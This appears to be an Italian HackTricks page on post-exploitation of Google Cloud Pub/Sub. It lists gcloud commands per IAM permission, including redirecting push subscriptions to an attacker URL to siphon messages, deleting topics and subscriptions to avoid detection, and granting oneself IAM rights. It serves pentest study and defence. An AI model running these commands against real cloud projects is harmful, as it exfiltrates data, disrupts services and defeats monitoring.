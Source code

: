 # GCP - Pub/Sub Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Per ulteriori informazioni su Pub/Sub, controlla la seguente pagina:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Pubblica un messaggio in un argomento, utile per **inviare dati inaspettati** e attivare funzionalità inaspettate o sfruttare vulnerabilità:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile per impedire a un abbonamento di ricevere messaggi, forse per evitare il rilevamento.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.\
È possibile eliminare un argomento anche con le sottoscrizioni ad esso collegate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Usa questo permesso per aggiornare alcune impostazioni del topic per interromperlo, come `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Concediti il permesso di eseguire uno qualsiasi degli attacchi precedenti.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Ottieni tutti i messaggi in un server web:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
Crea un abbonamento e usalo per **estrarre messaggi**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminare un abbonamento** potrebbe essere utile per interrompere un sistema di elaborazione dei log o qualcosa di simile:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Usa questo permesso per aggiornare alcune impostazioni in modo che i messaggi siano memorizzati in un luogo accessibile (URL, tabella Big Query, Bucket) o semplicemente per interromperlo.
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attacca uno schema a un argomento in modo che i messaggi non lo soddisfino e quindi l'argomento venga interrotto.\
Se non ci sono schemi, potresti doverne creare uno.
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Questo potrebbe sembrare che eliminando uno schema sarai in grado di inviare messaggi che non soddisfano lo schema. Tuttavia, poiché lo schema verrà eliminato, nessun messaggio entrerà effettivamente all'interno dell'argomento. Quindi questo è **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Questo creerà uno snapshot di tutti i messaggi non ACK e li rimetterà nell'abbonamento. Non molto utile per un attaccante, ma ecco:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}

